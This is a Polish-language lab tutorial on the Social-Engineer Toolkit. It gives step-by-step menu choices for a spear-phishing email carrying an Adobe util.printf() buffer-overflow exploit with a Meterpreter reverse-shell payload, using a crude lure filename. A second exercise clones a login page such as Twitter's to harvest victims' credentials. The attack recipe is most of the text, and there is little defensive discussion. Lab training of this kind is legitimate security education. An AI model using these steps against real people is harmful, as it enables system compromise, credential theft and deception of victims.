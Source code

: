TO DO

# SET

## Ćwiczenie 1 – Atak phishingowy
>**Zasoby:**
Kali Linux, Windows XP

SET dostarcza nam wiele możliwości ataków. W tym ćwiczeniu przeprowadzimy ukierunkowany atak phishingowy, w którym utworzymy i prześlemy złośliwe pliki za pomocą poczty elektronicznej.
Po otworzeniu pakietu SET przechodzimy kolejno:
```
# setoolkit
1) Social-Engineering Attacks
1) Spear-Phishing Attak Vector
1) Perform a Mass Email Attack
```
Następnym krokiem będzie wybranie ładunku. Pokazowo użyjemy exploita
`14) Adobe util.printf() Buffer Overflow`
Oraz ładunku
`2) Windows Meterpreter Reverse_TCP`
Kolejną czynnością będzie podanie wartości dla `LHOST` i `LPORT`
```
set> IP address for the payload listener (LHOST): 192.168.1.20
set:payloads> Port to connect back on [443]:443
```
SET wygeneruje payload, a następnie zapyta nas czy chcemy sami zdefiniować nazwę załącznika. Wybieramy opcję
`2. Rename the file, I want to be cool.`
I nadajemy chwytliwą nazwę np: nagiefotkiszefowej.pdf
Teraz wybieramy opcję ataku do wielu osób:
`1.E-Mail Attack Single Email Address`
Przygotowując atak możemy stworzyć swój szablon wiadomości lub skorzystać z gotowców. 
My skorzystamy z gotowca np.:
`4: WOAAAA!!!!!!!!!! This is crazy...`
Teraz przychodzi czas na ustawienie celu oraz skąd ma być wysłany e-mail. Możemy skorzystać z konta gogle lub własnego serwera.
:::info
INFO: 
Na poczcie GMAIL zadziała mechanizm analizujący załączniki, więc google zablokuje naszą pocztę.
:::

## Ćwiczenie 2 – Wykorzystanie strony WWW
>**Zasoby:**
Kali Linux, Windows 7

W tym ćwiczeniu wykorzystamy podrobioną przez nas stronę do wykradzenia danych logowania ofiary.
Za pomocą narzędzia SET wybieramy kolejno:
```
#setoolkit
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
```
Teraz musimy wybrać czy chcemy stronę sklonować, skorzystać z szablonu czy też zaimportować własną. 
Dla naszych potrzeb wykonamy klon dowolnej strony.
`2) Site Cloner`
SET poprosi nas o podanie adresu IP który będzie nasłuchiwał ofiary. Wpisujemy adres Kali Linux.
Następnie musimy wpisać adres strony którą sklonujemy np. `http://twitter.com`
W tym momencie SET uruchomi serwer www ze sklonowaną stroną.   Teraz należy tylko podesłać link ofierze i czekać aż się zaloguje.
